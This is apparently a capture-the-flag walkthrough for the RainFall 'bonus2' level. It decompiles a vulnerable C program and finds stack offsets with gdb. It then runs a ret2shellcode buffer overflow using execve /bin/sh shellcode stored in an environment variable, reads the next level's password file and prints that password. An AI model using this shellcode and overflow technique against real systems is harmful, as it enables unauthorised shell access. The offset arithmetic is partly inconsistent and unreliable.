 # Bonus 2

## Answer
Our C source code generates almost the same assembly code as the original binary. Compile it as follows:
> There is a significant difference as mentioned in the comments of the source code. I assume this is due to optimization. Nonetheless, it doesn't change the program's behavior
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <string.h>

int language = 0;

void greetuser(char *str)
{
    char buf[64];

    switch (language)
    {
    case 0:
        strcpy(buf, "Hello ");
        break;

    case 1:
        strcpy(buf, "Hyvää päivää ");
        break;

    case 2:
        strcpy(buf, "Goedemiddag! ");
        break;
    }

    strcat(buf, str);
    puts(buf);
}

// one line difference main+31 (extra use of eax) and what appears to be a memcpy
int main(int argc, char **argv)
{
    char buf[76];
    char *ret;
    char truc[64];

    if (argc != 3)
        return 1;

    memset(buf, 0, 76);
    strncpy(buf, argv[1], 40);
    strncpy(buf + 40, argv[2], 32);

    ret = getenv("LANG");
    if (ret != 0)
    {
        if (memcmp(ret, "fi", 2) == 0)
            language = 1;
        else if (memcmp(ret, "nl", 2) == 0)
            language = 2;
    }
    /* memcpy(esp, buf, 76); This happens in the assembly, I assume because of an optimization */
    greetuser(buf);
}
```

Let's focus on the `main` function. It reads input from the command line and then `strncpy` copies it to the `buf` buffer. It copies 40 bytes from the first argument and 32 bytes from the second argument. Because of the `memset` function, the `buf` buffer is null terminated.

However, the `greetuser` function is called and will concatenate the `buf` buffer with a string depending on the `language` variable. The `language` variable is set depending on the `LANG` environment variable. This will allow us to overflow the buffer and overwrite the return address of the `greetuser` function.

Let's first see how many bytes we need to overflow the buffer by analyzing the stack layout of our program:
```bash
(gdb) b *greetuser+163 # Breaking before leave
Breakpoint 1 at 0x8048527

(gdb) r 4 2 # Run the program
Starting program: /home/user/bonus2/bonus2 4 2
Goedemiddag! päivää 4 # I had LANG=nl in this scenario

Breakpoint 1, 0x08048527 in greetuser ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff620       0xbffff620
ebp            0xbffff678       0xbffff678
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 72 bytes:
```
0xbffff678 - 0xbffff620 = 58 (88 in decimal)
```

Furthermore, we can see that our buffer is located at `-0x48(%ebp),%eax`. Since our buffer is located at `ebp - 72`, we only have to write 72 bytes before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 76 bytes (72 + 4).

Anything written beyond those 76 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

We can write a total of 72 bytes from the `main` function, and if our `LANG` environment variable isn't set to `nl` or `fi`, we can write 6 more bytes from the `greetuser` function. So a total of 78 bytes. Enough to overflow the buffer but not enough to write an address (we're missing 2 bytes for our address). So we'll have to set our `LANG` environment variable to `nl` or `fi`:
```bash
bonus2@RainFall:~$ export LANG=nl
```

I'll use `nl`, which will allows us to write 13 bytes from the `greetuser` function. So a total of 85 bytes. Enough to overflow the buffer and write an address.

Since we need 76 bytes to reach the return address our padding will be:
```
40 bytes from the first argument + 23 bytes from the second argument + 13 bytes from the greetuser function = 76 bytes
```

Although a ret2libc is possible, we'll use a ret2shellcode for this challenge. The ret2libc isn't straightforward in this exercise and I don't want to spend too much time on it.

Check the [level1's walkthrough](../level1/walkthrough.md#ret2shellcode) for an explanation of the ret2shellcode technique.

We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll use the environment variable:
```bash
bonus2@RainFall:~$ export EXPLOIT=`python -c "print '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
bonus2@RainFall:/tmp$ ./a.out
0xbffff848
```

Alright, let's craft our payload:
```
arg1 = padding of 40 bytes
arg2 = padding of 23 bytes + address of the shellcode in the env

arg1 = A * 40
arg2 = B * 23 + "\xbf\xff\xf8\x48"
```

Let's run it:
```bash
bonus2@RainFall:~$ ./bonus2 `python -c 'print "A"*40'` `python -c 'print "B"*23 + "\xbf\xff\xf8\x48"[::-1]'`
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBQ���
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

We are now bonus3! Let's move on to the next level.
